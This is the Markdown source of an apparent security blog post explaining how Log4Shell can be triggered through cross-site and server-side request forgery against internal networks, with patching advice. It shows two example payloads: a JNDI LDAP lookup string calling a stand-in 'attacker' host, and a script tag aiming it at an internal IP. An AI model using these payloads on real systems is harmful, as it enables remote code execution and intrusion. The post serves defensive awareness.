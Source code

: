 ```yaml
---
title: "Log4Shell and Request Forgery Attacks"
date: 2022-01-04T15:18:18-08:00
draft: true
tags: [
        "pentest", "red","research"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Log4Shell and Request Forgery Attacks"
  description:  "Beware of Log4Shell and Request Forgery Attacks"
  image: "https://embracethered.com/blog/images/2022/log4shell.png"
---
```



The last weeks of 2021 got quite interesting for security professionals and software engineers.

Apache's [log4j library](https://logging.apache.org/log4j/2.x/) and its now prominent [Java Naming and Directory Interface support](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html), which enables easy remote code execution, made the news across the industry. 

What makes Log4Shell scary is the widespread adoption of the Log4j library amongst Java applications, and the ease of remote exploitation. 

**A dangerous combination.** 

Patches got released, bypasses were discovered more patches were released and so forth.

A lot has been written and great information is out there around [discovery](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/), [exploitation](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit) as well as [mitigations](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). This post is not intended to repeat that information. 

![Log4Shell and Request Forgery Attacks](/blog/images/2022/log4shell.png)

However, an area that has not gotten a lot of attention is the exploitation of Log4Shell in Request Forgery Attacks that target internal infrastructure and web servers by using the browser or a vulnerable service as confused deputy.

## What are Request Forgery Attacks?

Request Forgery Attacks create requests that have unintended consequences for the victim of the attack. 

These can typically be put in two categories, based on where the request is forged (client or server)
 
1. **Cross-Site Request Forgery Attacks** (CSRF) - these attacks make the client/browser connect to resources and trigger unintended actions. This attactypically leverages authentication tokens to invoke privileged operations on the users behalf via a web browser.
2. **Server-Side Request Forgery Attacks** (SSRF) - these attacks create a request on the server side, where an attacker is able to provide a URL to the server and the server will later connect to that URL. This could be via a wide range of destinations and protocols (localhost, internal networks, http, ftp, ldap,...)

Both kinds of request forgery vulnerabilities are quite common in web application and services. Also see the [confused deputy problem](https://en.wikipedia.org/wiki/Confused_deputy_problem) for a generic explanation of this kind of security issue.

## Why is this interesting in regard to Log4j?

**What makes request forgery attacks so powerful in regard to Log4j is that the Log4j vulnerability often can be triggered without any form of authentication**. 

This makes Cross-Site Request Forgery Attacks that target local or internal network resources very plausible. The same goes for the Server-Side attack scenarios. 

Any Server-Side feature which allows a user to specify a URL to control where a service connects to can potentially be leveraged to target internal infrastructure and probe for the log4j vulnerability.

## Simple GET requests trigger Log4Shell

Remember that in many cases all that is needed to reach a vulnerable log4j system is a GET request with a query parameter that contains the attack payload, for example:

`?username=${jndi:ldap://attacker/p}`

This payload can be provided by a malicious web page, e.g. when loading `image` or `script` tags:

`<script src="https://10.0.0.1/?username=${jndi:ldap://attacker/p}">`

This request will attack an internal network (such as the `10.0.0.1` IP address). It can also target applications installed on `localhost` (including phones!) of the victim browsing the Internet. 

![Log4Shell and Request Forgery Attacks - Log4 What?](/blog/images/2022/glasses.png)

An adversary can automate and scale this technique via JavaScript and AJAX requests or by just adding more tags in the HTML document.

Beware of this attack vector (possibly in combination with phishing attacks) patch and protect internally facing applications as well.

## Conclusion

This post discussed how both Cross-Site (client based) and Server-Side Request Forgery Attacks can lead to succesful exploitation of the log4j vulnerability.

**If you were solely focused on patching externally facing applications and services expand your analysis to everything, including internal infrastructure, as well as developer and end user machines.**

[Chrome and Edge](https://chromestatus.com/feature/5436853517811712) seem to add more restrictions for browsers to talk to private networks as well.

Keep scanning and patching!

## References

* [Apache Log4j Overview](https://logging.apache.org/log4j/2.x/) 
* [JNDI Overview](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
* [CISA - Apache Log4j Vulnerabilty Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
* [Apache Log4j Vulnerability - Exploit](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit)
* [Confused Deputy Problem](https://en.wikipedia.org/wiki/Confused_deputy_problem)
* [Guidance for preventing, detecting and hunting for CVE 2021-44228](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
* [Feature: Restrict "private network requests" for subresources from public websites to secure contexts](https://chromestatus.com/feature/5436853517811712)
* Image with the glasses taken from Microsoft Image search included in PowerPoint - credit goes to whoever created the image.
